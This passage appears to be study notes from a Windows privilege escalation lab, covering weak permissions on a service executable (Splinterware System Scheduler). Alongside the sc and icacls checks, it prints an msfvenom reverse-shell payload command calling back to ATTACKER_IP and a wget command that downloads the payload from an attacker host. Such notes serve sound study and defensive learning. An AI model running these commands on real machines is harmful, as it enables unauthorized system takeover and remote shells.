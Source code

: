 		- ObjectName : the account used to start the service.

- If a **DACL** has been configured for the service, it will be stored in a subkey called ***Security***.
- As you have guessed by now, **only admins can modify such registry entries by default**.

		- Recap, 'localSystem' has higher privilege than Administrator.

### Insecure Permissions on Service Executable
- If the executable associated with ***a service has weak permissions that allow an attacker to modify or replace it***, the attacker can gain the privileges of the service's account trivially.
- To understand how this works, let's look at a vulnerability found on Splinterware System Scheduler.
- To start, we will query the service configuration using `sc`:

`> sc qc WindowsScheduler`

![](/assets/img/Pasted image 20230103160901.png)


- We can see that the service installed by the vulnerable software runs as `svcuser1` and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`

![](/assets/img/Pasted image 20230103161105.png)

- We then proceed to check the permissions of the executable:

`> icacls C:\Progra~2\System~1\WService.exe`

![](/assets/img/Pasted image 20230103161229.png)

	- this file seems to be readable and executable for normal users.
	- Admin and NT Auth/System has full access.
	- "Everyone" group has 'M' which means anyone can modify the permission of this executable. If this is the case, we can overwrite the service executable's code with the payload that we have. Since this is an .exe file, its kind of like making the executable a Trojan from MalDev Essentials that they patched the first few lines of the code by injecting the shellcode in x64dbg and when the service gets used, the payload gets executed along with it.

- If we can overwrite the code in `WService.exe` and inject any payload of our preference, the service will execute it with the privileges of the configured user account.

- Let's generate an exe-service payload using `msfvenom` and serve it through a python webserver:

`$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`
`$ python3 -m http.server`

![](/assets/img/Pasted image 20230103161837.png)

	- Note that we need the python web server to download the malware first. In this way, the victim's machine is the one that will connect to us.

- We can then pull/download the payload from `PowerShell` with the following command:

`> wget http://<attacker-ip>:8000/rev-svc.exe -O rev-svc.exe`
